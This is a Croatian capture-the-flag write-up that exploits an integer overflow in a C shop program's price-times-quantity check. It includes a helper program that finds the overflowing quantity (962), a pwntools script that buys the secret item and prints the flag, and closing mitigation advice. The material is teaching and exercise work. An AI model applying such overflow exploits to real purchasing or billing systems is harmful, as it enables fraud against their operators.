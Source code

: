 # Writeup

## Otkrivanje ranjivosti

Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **integer overflow** kod kupovine stvari. 

Isječak koda koji sadrži ranjivost:
```
if(dostupneStvari[opcija-1].cijena * kolicina <= novac){
		novac-= dostupneStvari[opcija-1].cijena;
		printf("Kupljeno: %s (%dx)\n", dostupneStvari[opcija-1].ime,kolicina);
		
		if(opcija-1 == 4){
			tajnaStvarKupljena();
		}
		
		return;
}
```
Kako bi izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` bio istinit, može se za količinu stvari _Super tajna stvar_ unijeti veliki broj koji će zbog integer overflow-a zadovoljiti izraz.

## Objašnjenje ranjivosti

Najveća moguća vrijednost varijable tipa int u C programskom jeziku je ```2 147 483 647```. Ako integer varijabla sadrži tu najveću vrijednost i inkrementira se za jedan, tada će nova vrijednost biti ```-2 147 483 648```. To se događa zbog integer overflow-a, gdje se nakon postizanja najveće moguće vrijednosti 32-bitnog int tipa (2 147 483 647) inkrementiranjem prelazi u negativni raspon zbog dvokomplementnog prikaza brojeva, gdje se najviši bit koristi za znak broja.

Na sljedećoj slici prikazan je primjer integer overflow-a u 8-bitnom dvokomplementnom prikazu brojeva (32-bitni prikaz je sličan).

![slika](https://github.com/user-attachments/assets/cf8c8832-7cf6-407f-92f5-4d14117470fb)

Kod dvokomplementnog prikaza brojeva, najznačajniji bit se koristi za mogućnost spremanja negativnih brojeva. U ovom primjeru, najznačajniji bit nosi vrijednost ```-128```. Ako se na vrijednost ```127``` (koja u binarnom prikazu ima sve jedinice osim najznačajnijeg bita) pribroji jedan, tada će se sve jedinice pretvoriti u nule i jedinica će se prenijeti na najznačajniji bit.

U zadatku dolazi do integer overflowa prilikom umnoška cijene i količine. Budući da su obje varijable tipa ```int```, i njihov umnožak je također tipa ```int```. Zbog ograničenja raspona ovog tipa podatka, ako je rezultat umnoška prevelik za pohranu, dolazi do integer overflow-a.

Izrađen je kratak program koji traži najmanju količinu koja kada se pomnoži s cijenom stvari _Super tajna stvar_ uzrokuje integer overflow:
```
#include <stdio.h>

int main()
{
    int cijena = 2232350;
    int kolicina = 1;
    for(;kolicina<99999999;kolicina++){
        int ukupno = kolicina*cijena;
        
        if(ukupno<=0){
            printf("%d\n",kolicina);
            printf("%d\n",ukupno);
            break;
        }
    }

    return 0;
}
```

Izlaz programa:
```
962
-2147446596
```

Iz izlaza programa vidimo kako je najmanja količina koja uzrokuje integer overflow jednaka ```962```. Umnoškom cijene i količine dobi se ```-2 147 446 596```

Izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` postaje ```-2 147 446 596 <= novac```. Pošto je ```novac``` uvijek veći ili jednak nuli, izraz postaje istinit.


## Iskorištenje ranjivosti

Za izradu rješenja može se napraviti Python skripta koja iskorištava integer overflow ranjivost u zadatku. Skripta koristi ```pwntools``` biblioteku za interakciju s kompajliranim programom, omogućujući slanje podataka i primanje odgovora od procesa pokrenutog programa. Nakon pokretanja programa, skripta odabire opciju kupnje stvari (3), zatim bira stvar _Super tajna stvar_ (5) i na kraju šalje količinu koja  uzrokuje integer overflow (962).

```
from pwn import *

io = process("./kupovina") #da možemo slati i primati podatke od procesa
elf = ELF("./kupovina") #omogucava pwntools-u da može procitati gdje su adrese funkcija

# = = = START

print(io.recvuntil(b"Odabir:")) #pricekaj ovaj output, pa zatim nastavi
# b ispred stringa veli pythonu da on string tretira kao bytove i pwntools očekuje podatke u obliku bajtova
# python koristi UTF-8 stringove pa dolaze upozorenja ako se ne koristi b

io.sendline(b"3") #biranje opcije 3

print(io.recvuntil(b"Odaberite stvar koju zelite kupiti (0 za izlaz):")) 
io.sendline(b"5") #biranje opcije 5

payload = b""
payload += b"962"

# = = = END

io.sendline(payload) #slanje exploita
print(payload)

io.interactive() #prebacuje stdin i stdout na standardni ulaz i izlaz, vraća kontrolu korisniku (terminalu)

```


Pokretanjem ove skripte, ispiše se flag ```CTFFOI[1nt3ger_0VERFL0W]```.

## Edukativne smjernice
- Integer overflow je ranjivost gdje se pri aritmetičkoj operaciji (npr. množenju) prekorači maksimalna vrijednost u vraijabli tipa _int_, pa rezultat preleti u negativni raspon i može prevariti logiku usporedbe.
- Za zaštitu od ove vrste napada preporučuje se:
  - Prije računanja provjeriti hoće li ```cijena * količina``` ostati unutar valjanog raspona.
  - Uvesti ograničenja na ulazne brojeve (maksimalna količina) kako bi se spriječile ekstremne vrijednosti.
  - Koristiti veće tipove podataka (npr. long) kad su vrijednosti velike.
